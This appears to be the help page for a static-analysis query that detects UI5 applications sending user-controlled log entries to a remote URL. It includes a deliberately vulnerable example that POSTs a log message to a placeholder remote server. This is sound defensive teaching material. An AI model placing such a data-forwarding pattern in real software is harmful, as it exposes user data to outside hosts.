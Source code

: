 # UI5 Log injection in outbound network request

Sending user-controlled log data to a remote URL without further validation may lead to uncontrolled information exposure and to injection vulnerabilities. It may be an indication of malicious backdoor code that has been implanted into an otherwise trusted code base.

UI5 applications can retrieve logs for further processing using `sap/base/Log.getLogEntries`, define custom listeners using `sap/base/Log.addLogListener` or directly display logs using the `sap/ui/vk/Notifications` control.

This query identifies instances where log entries from user input are forwarded to a remote URL. 

## Recommendation

Avoid processing log entries that originate from user-controlled sources. Ensure that any log data is properly sanitized.

## Example

The following example demonstrates a vulnerable code snippet:

1. The UI5 application logs what the user submitted via the `sap.m.Input` control.
```xml
<Input placeholder="Enter Payload" 
    value="{/input}" />  <!--User input source sap.m.Input.value -->
```
```javascript
var input = oModel.getProperty("/input");
jQuery.sap.log.debug(input);  // user input is logged as is
```
2. A second component sends log entries to a remote URL without further validation.
```javascript
const http = new XMLHttpRequest();
const url = "https://some.remote.server/location";
http.open("POST", url);
http.send(Log.getLogEntries()[0].message); // log entry is forwarded to a remote URL
```

## References

- OWASP: [Log Injection](https://owasp.org/www-community/attacks/Log_Injection).
- OWASP: [Log Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Logging_Cheat_Sheet.html).
- SAP UI5 Documentation: [namespace `sap/base/Log`](https://sapui5.hana.ondemand.com/sdk/#api/module:sap/base/Log).
- 